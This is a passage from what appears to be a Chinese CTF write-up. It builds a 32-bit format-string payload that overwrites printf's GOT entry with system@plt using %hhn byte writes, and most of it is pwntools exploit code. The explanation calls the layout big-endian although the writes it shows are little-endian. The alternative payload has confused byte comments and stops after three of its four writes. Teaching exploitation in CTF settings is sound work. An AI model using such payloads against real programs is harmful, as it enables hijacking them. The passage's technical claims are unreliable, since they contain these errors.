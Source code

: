 (2)32 位程序，4 个字节一个地址，所以需要四个地址：

```
#注释头
 
payload = p32(printf_got)
payload += p32(printf_got+1)
payload += p32(printf_got+2)
payload += p32(printf_got+3)

```

(3) 由于是大端序，低地址保存的是高地址的内容，print_got 需要保存的应该是 system_plt 的最后一个字节，也就是 0x20。

①由于前面已经输入了 p32(printf_got)+p32(printf_got1)+p32(printf_got2)+p32(printf_got3)，这些在没有遇到 % 之前一定会被打印出来，共计 16 个字节，而我们需要让它总共打印出 0x20 个字节，所以我们再打印 (0x20-16) 个字节。

②同样，由于前面已经打印了 0x20 个字节，我们总共需要打印 0x83 个字节，所以应该再让程序打印 %(0x83-0x20) 个字节，之后道理相同。

```
#注释头
 
 
payload += "%"
payload += str(0x20-16)
payload += "c%5$hhn"
#写入0x20到地址print_got
 
payload += "%"
payload += str(0x83-0x20)
payload += "c%6$hhn"
#写入0x83到地址print_got+1
 
payload += "%"
payload += str(0x104-0x83)
payload += "c%7$hhn"
#写入0x04到地址print_got+2，0x104被截断为04
 
payload += "%"
payload += str(0x108-0x104)
payload += "c%8$hhn"
#写入0x08到地址print_got+3，0x108被截断为08

```

▲为了便于理解，下面代码也行：

```
#注释头
 
payload = p32(printf_got+1) 
#使用hhn写入，分别对应待写入的第3，4，2，1字节
payload += p32(printf_got)
payload += p32(printf_got+2)
payload += p32(printf_got+3)
 
payload += "%"
payload += str(0x83-16) #被写入的数据，注意四个地址长度是16，需要减掉
payload += "c%5$hhn"
 
payload += "%"
payload += str(0x120-0x83)
payload += "c%6$hhn"
 
payload += "%"
payload += str(0x204-0x120) #由于是hhn所以会被截断，只留后两位
payload += "c%7$hhn"
 
```